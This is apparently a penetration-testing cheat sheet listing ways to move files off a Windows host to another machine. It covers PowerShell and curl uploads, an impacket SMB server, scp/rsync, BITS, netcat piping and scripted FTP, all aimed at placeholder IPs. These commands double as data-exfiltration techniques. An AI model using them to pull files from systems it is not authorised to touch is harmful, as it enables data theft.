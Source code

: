 USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------

#### 

**Web Content Upload**
    
    $webClient.UploadFile('http://{REMOTE-IP}/demo.txt', 'PUT', 'C:\temp\demo.txt')

**Web Content Upload**
    
    powershell.exe -c "curl.exe -T C:\temp\demo.txt http://{REMOTE-IP}/demo.txt"

**Web Content Upload**
    
    Start-Process -FilePath "curl.exe" -ArgumentList "-T 'C:\temp\demo.txt' http://{REMOTE-IP}/demo.txt" -NoNewWindow -Wait
------------------------------------------------------------------------------------------------------------------

</br>

USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Using PUT Method**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://{REMOTE-IP}/demo.txt', 'PUT', 'C:\temp\demo.txt')"   

**Using POST Method**

    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://{REMOTE-IP}/demo.txt','C:\temp\demo.txt')"
------------------------------------------------------------------------------------------------------------------

</br>

USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
    impacket-smbserver -smb2support share .

**Use authenticated servers if file transfer is long**

    impacket-smbserver share -username user -password 123 . -smb2support


**SMB CLIENT -**

**To create authenticated session**

    net use \\{LOCAL-IP} /u:"user" "123"

**Web Content Upload**
    
    copy demo.txt \\{LOCAL-IP}\share\  
------------------------------------------------------------------------------------------------------------------

</br>

USING SSH - 
------------------------------------------------------------------------------------------------------------------

**SCP-**

**Copy a file from Remote PC to Local PC**
    
    scp user@{REMOTE-IP}:/users/public/demo.txt /tmp/

**Copy a directory from Remote PC to Local PC**

    scp -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**Copy a directory from Remote to Local with RSA key**

    scp -i id_rsa -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**RSYNC-**

**Copy a file from Remote PC to Local PC**
    
    rsync -av user@{REMOTE-IP}:/users/public/demo.txt /tmp/

**Copy a directory from Remote PC to Local PC**

    rsync -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**Copy a directory from Remote to Local with RSA key**

    rsync -av --port 22 -e 'ssh -i id_rsa' -r user@{REMOTE-IP}:/users/public/demo/ /tmp/

------------------------------------------------------------------------------------------------------------------

</br>

USING WinRM - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    download demo.txt
------------------------------------------------------------------------------------------------------------------

</br>

USING BITSADMIN - 
------------------------------------------------------------------------------------------------------------------

**Upload a single file from Remote PC to Local PC**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source '\users\public\demo.txt' -Destination 'http://{LOCAL-IP}/demo.txt' -TransferType Upload"

**Upload multiple files from Remote PC to Local PC**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'c:\users\public\demo1.txt', 'c:\users\public\demo2.txt' -Destination 'http://{LOCAL-IP}/demo1.txt', 'http://{LOCAL-IP}/demo2.txt' -TransferType Upload"

**Transfer single file from one directory to another directory**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source '\users\public\demo.txt' -Destination '\users\public\' -TransferType Upload"
------------------------------------------------------------------------------------------------------------------

</br>

USING NC / NETCAT - 
------------------------------------------------------------------------------------------------------------------

**Run NC Server on Local PC**
    
    nc.exe -nlvp 443 > demo.txt

**Run NC Client on Remote PC**
    
    nc -v {LOCAL-IP} 443 < demo.txt
                OR
    type demo.txt | nc.exe -v {LOCAL-IP} 443
------------------------------------------------------------------------------------------------------------------

</br>

USING FTP - 
------------------------------------------------------------------------------------------------------------------

**File Upload**

Replace "demo.txt" with desired file name
    
    echo open {LOCAL-IP} 21 > file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -A -v -n -s:file.txt

**One Liner**

    echo open {LOCAL-IP} 21 > file.txt && echo bin>> file.txt && echo put demo.txt>> file.txt && echo bye>> file.txt && ftp -A -v -n -s:file.txt

**Mannualy -**

    ftp
    open {LOCAL-IP} 2121
    put demo.txt

**FTP Authenticated**

Replace "demo.txt" with desired file name
    
    echo open {LOCAL-IP} 21 > file.txt
    echo user test>> file.txt
    echo test>> file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -v -n -s:file.txt

**Mannualy -**

    ftp
    open {LOCAL-IP} 2121
    put demo.txt
------------------------------------------------------------------------------------------------------------------
